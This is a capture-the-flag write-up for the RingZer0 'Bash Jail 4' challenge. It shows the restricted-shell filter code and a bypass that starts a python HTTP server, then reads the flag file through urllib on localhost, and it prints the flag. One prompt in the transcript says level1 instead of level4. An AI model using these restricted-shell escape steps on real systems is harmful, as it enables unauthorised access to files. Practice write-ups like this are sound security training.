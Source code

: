# Bash Jail 4

__PROBLEM__

User: level4
Password is the previous jail challenge flag

ssh challenges.ringzer0team -p 10221

__SOLUTION__
```bash
➜ ssh level4@challenges.ringzer0team.com -p 10221
level4@challenges.ringzer0team.com password:

RingZer0 Team Online CTF

BASH Jail Level 4:
Current user is uid=1003(level4) gid=1003(level4) groups=1003(level4)

Flag is located at /home/level4/flag.txt

Challenge bash code:
-----------------------------

WARNING: this prompt is launched using ./prompt.sh 2>/dev/null

# CHALLENGE

function check_space {
        if [[ $1 == *[bdksc'/''<''>''&''$']* ]]
        then
                return 0
        fi

        return 1
}

while :
do
        echo "Your input:"
        read input
        if check_space "$input"
        then
                echo -e '\033[0;31mRestricted characters has been used\033[0m'
        else
                output=`$input < /dev/null` &>/dev/null
                echo "Command executed"
        fi
done

-----------------------------
Your input:
python
Command executed
Your input:
python -m SimpleHTTPServer
```

This way we are stating a HTTP server since python is available on the server.

```bash
/bin/bash
level1@lxc17-bash-jail:~$ python3 1>&0
Python 3.4.3 (default, Oct 14 2015, 20:28:29)
\[GCC 4.8.4\] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>\> import urllib.request
>>\> urllib.request.urlopen("http://127.0.0.1:8000/flag.txt").read()
b'FLAG-OTQKB0274fwtxk3v2rTLCd0l5v7KNp7F\n'

```
FLAG - `FLAG-OTQKB0274fwtxk3v2rTLCd0l5v7KNp7F`
